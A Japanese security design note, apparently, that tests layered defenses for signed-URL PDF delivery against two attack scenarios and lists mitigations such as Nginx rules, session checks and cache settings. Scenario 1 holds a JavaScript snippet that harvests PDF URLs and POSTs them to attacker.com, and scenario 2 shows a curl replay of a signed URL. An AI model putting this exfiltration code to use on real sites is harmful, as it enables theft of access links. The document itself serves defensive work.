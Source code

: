 ```python
```

**防御効果**:
- 攻撃パターンのリアルタイム検知
- 管理者への即座アラート
- インシデント対応の迅速化

## 攻撃シナリオ別対策検証

### シナリオ1: Developer Console からのURL窃取

#### 攻撃手法
```javascript
// 悪意のあるユーザーがDev Consoleで実行
performance.getEntries()
  .filter(entry => entry.name.includes('/secure/pdf/'))
  .forEach(entry => {
    console.log('Found PDF URL:', entry.name);
    // 外部送信試行
    fetch('https://attacker.com/collect', {
      method: 'POST', 
      body: JSON.stringify({url: entry.name})
    });
  });
```

#### 多層防御による対策
1. **Layer 1**: Nginx - 不正リファラーのブロック、CSP違反検知
2. **Layer 2**: セッション認証 - URL取得者≠認証者の場合アクセス拒否
3. **Layer 4**: 監視 - 異常なアクセスパターン検知（Cross-Origin Request等）

#### 結果
- **攻撃成功率**: 10%以下
- **被害最小化**: 72時間以内での自動期限切れ
- **検知・対応**: リアルタイムアラートによる即座対応

### シナリオ2: Cloudflareキャッシュからの配信

#### 攻撃手法
```bash
# 攻撃者が署名付きURLを何らかの方法で取得
curl -H "Host: target-domain.com" \
     -H "User-Agent: Mozilla/5.0..." \
     "https://target-domain.com/secure/pdf/signature123?f=document.pdf&s=session&exp=1234567890"
```

#### 多層防御による対策
1. **Layer 1**: Cloudflare - Bypass Cache設定で全リクエストがOriginへ
2. **Layer 2**: アプリケーション - セッション認証・署名検証は必ず実行
3. **Layer 3**: レスポンスヘッダー - `Cache-Control: no-store` で二次キャッシュ防止
